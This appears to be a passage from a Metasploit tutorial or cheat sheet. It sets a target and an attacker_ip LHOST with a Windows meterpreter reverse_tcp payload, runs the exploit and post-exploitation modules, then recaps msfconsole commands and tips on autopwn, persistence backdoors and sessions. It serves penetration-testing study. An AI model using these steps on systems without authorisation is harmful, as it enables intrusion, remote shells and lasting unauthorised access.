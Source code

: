 	- Set the target IP and other necessary parameters 
```bash
set RHOSTS target_ip
set LHOST attacker_ip
set PAYLOAD windows/meterpreter/reverse_tcp
```
5. **Exploiting the target**
	- Once all the options are configured, execute the exploit 
```bash
exploit
```
6. **Post-Exploitation**
	- After successfully exploiting the target, you can use post-exploitation modules 
	- e.g.
```bash
use post/windows/gather/enum_logged_on_users
```
---
# Important Commands Recap
- Search for modules
```bash
search <keyword>
```
- view information about a module
```bash
info <module_name>
```
- set exploit/payload/option
```bash
set <option_name> <value>
```
- show options of loaded module
```bash
show options
```
- execute an exploit or auxiliary module 
```bash
run or exploit
```

---

# Additional Tips
- **Auto-exploitation**
	- one can use *Autopwn* or *Auxiliary Modules* like *db_autopwn* to automatically match against the discovered services
- **Persistent Session**
	- If you gain access to a machine and need to keep your access alive even after the session ends, use *Persistence Payloads* to create a backdoor
- **Session handling**
	- Once you have a session (like a metasploit shell), you can interact when it using : 
```bash
sessions -i <session_id>
```
- **Database Integration**
	- use Metasploit's built-in database to store results and information from scans  :
```bash
db_nmap <options>
```
---
# msfconsole